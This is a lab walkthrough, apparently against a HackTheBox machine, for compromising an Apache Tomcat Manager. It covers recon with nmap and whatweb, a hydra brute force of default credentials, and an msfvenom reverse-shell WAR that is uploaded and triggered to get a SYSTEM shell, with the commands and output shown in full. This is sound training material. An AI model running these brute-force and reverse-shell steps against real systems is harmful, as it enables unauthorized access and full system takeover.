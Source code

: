 # Tomcat Manager

## Recon

Tomcat is running with an HTTP Proxy:

```bash
❯ nmap -p- -n -Pn --min-rate 5000 -oG scans/nmap-tcpfast 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:53 EDT
Nmap scan report for 10.10.10.95
Host is up (0.083s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

Apache Tomcat has been found:

```bash
❯ sudo nmap -sCV -p 8080 -n -Pn -oG scans/nmap-tcpscripts 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:56 EDT
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.86 seconds
```

## Web Fingerprinting

We can use curl to enumerate the headers:

```bash
❯ curl -I http://10.10.10.95:8080
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked
Date: Sun, 15 Aug 2021 01:28:24 GMT
```

With _**whatweb**_ we can identify multiple web technologies:

```bash
❯ whatweb -a 3 -v http://10.10.10.95:8080
WhatWeb report for http://10.10.10.95:8080
Status    : 200 OK
Title     : Apache Tomcat/7.0.88
IP        : 10.10.10.95
Country   : RESERVED, ZZ

Summary   : HTML5, Apache, HTTPServer[Apache-Coyote/1.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        String       : Apache-Coyote/1.1 (from server string)

HTTP Headers:
        HTTP/1.1 200 OK
        Server: Apache-Coyote/1.1
        Content-Type: text/html;charset=ISO-8859-1
        Transfer-Encoding: chunked
        Date: Sun, 15 Aug 2021 01:28:13 GMT
        Connection: close
```

## Tomcat

The tomcat default web page is the following:

![Apache Tomcat](../../.gitbook/assets/apache-tomcat.png)

HTTP Basic Authentication in Tomcat:

![HTTP Basic Authentication](../../.gitbook/assets/tomcat-authentication.png)

The HTTP Authorization header after submitting credentials:

![Authorization Header](../../.gitbook/assets/authorization-header.png)

Base64 Decode the value of the Authorization header:

![Base64 Decode Authorization Header Value](../../.gitbook/assets/base64-decode.png)

**Server Manager** and **Manager App:**

![](../../.gitbook/assets/manager-gui-401.png)

**Host Manager:**

![](../../.gitbook/assets/admin-gui-401.png)

### Tomcat After Failed Authentication

When we visit another manager directory the authorization header is automatically prepended however, the other directory has different credentials so we receive an HTTP 401 unauthorized status code. We have to remove the following header highlighted in red:

![](../../.gitbook/assets/authorization-header-prepend.png)

After removing the Authorization header we will be prompted with HTTP Basic Authentication prompt:

![](../../.gitbook/assets/http-basic-after-remove-authorization-header.png)

### Tomcat Bruteforce

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:20:53
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:20:55
```

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:28:36
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:28:38
```

### Tomcat Manager App Reverse Shell

![](../../.gitbook/assets/tomcat-manager-app.png)

I’ll use msfvenom to create a windows reverse shell that can be caught with nc:

```text
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.185 LPORT=9002 -f war > rev_shell-9002.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52237 bytes
```

I’ll also need to know the name of the JSP page to activate it with curl. I’ll use jar to list the contents of the war.

```text
❯ jar -ft rev_shell-9002.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
qduissimtg.jsp
```

> Note: qduissimtg.jsp is the file that we'll need to execute after we upload the WAR file.

I'll set up a listener with nc:

```text
❯ nc -lvnp 9002
```

Now upload through the manager application:

![WAR File Upload](../../.gitbook/assets/tomcat-upload.png)

Then curl the page at:

```text
❯ curl http://10.10.10.95:8080/rev_shell-9002/qduissimtg.jsp
```

We receive a reverse shell:

```text
❯ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.185] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

